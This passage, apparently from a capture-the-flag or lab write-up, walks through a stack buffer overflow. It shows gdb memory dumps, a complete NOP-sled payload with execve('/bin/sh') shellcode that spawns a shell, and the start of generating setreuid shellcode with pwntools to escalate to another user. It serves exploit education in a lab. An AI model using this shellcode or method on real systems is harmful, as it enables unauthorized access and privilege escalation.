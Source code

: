 ```
0x7fffffffe278: 0x90909090  0x90909090  0x90909090  0x90909090
0x7fffffffe288: 0x90909090  0x90909090  0x90909090  0x90909090
0x7fffffffe298: 0x3b6a9090  0xd2314858  0x2f2fb849  0x2f6e6962 <--- shellcode


Let’s take any address between the NOP sled and the shellcode (e.g. 0x7fffffffe288). Here is the final payload:

\x88\xe2\xff\xff\xff\x7f

so final payload will be

./buffer-overflow $(python2 -c "print '\x90'*90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*22 + '\x88\xe2\xff\xff\xff\x7f'")


---Type <return> to continue, or q <return> to quit---q
Quit
(gdb) quit
A debugging session is active.

        Inferior 1 [process 6093] will be killed.

Quit anyway? (y or n) y
[user1@ip-10-10-69-210 overflow-3]$ ./buffer-overflow $(python2 -c "print '\x90'*90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*22 + '\x88\xe2\xff\xff\xff\x7f'")
Here's a program that echo's out your input
������������������������������������������������������������������������������������������j;XH1�I�//bin/shIAPH��RWH��j<XH1����������������������������
sh-4.2$ whoami
user1
sh-4.2$ cat secret.txt
cat: secret.txt: Permission denied

not work 😢

As you can see above, we are not allowed to access the secret though, because we are not user2.

setreuid

Let’s use pwntools to generate a prefix to our shellcode to run SETREUID: 

┌──(kali㉿kali)-[~/bufferoverflow/learn]
└─$ pwn shellcraft -f d amd64.linux.setreuid 1002
Command 'pwn' not found, but can be installed with:
sudo apt install python3-pwntools
Do you want to install it? (N/y)y
sudo apt install python3-pwntools

[user1@ip-10-10-2-237 ~]$ grep user2 /etc/passwd
user2:x:1002:1002::/home/user2:/bin/bash


┌──(kali㉿kali)-[~/bufferoverflow/learn]
└─$ pwn shellcraft -f d amd64.linux.setreuid 1002
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/kali/.cache/.pwntools-cache-3.10/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
```
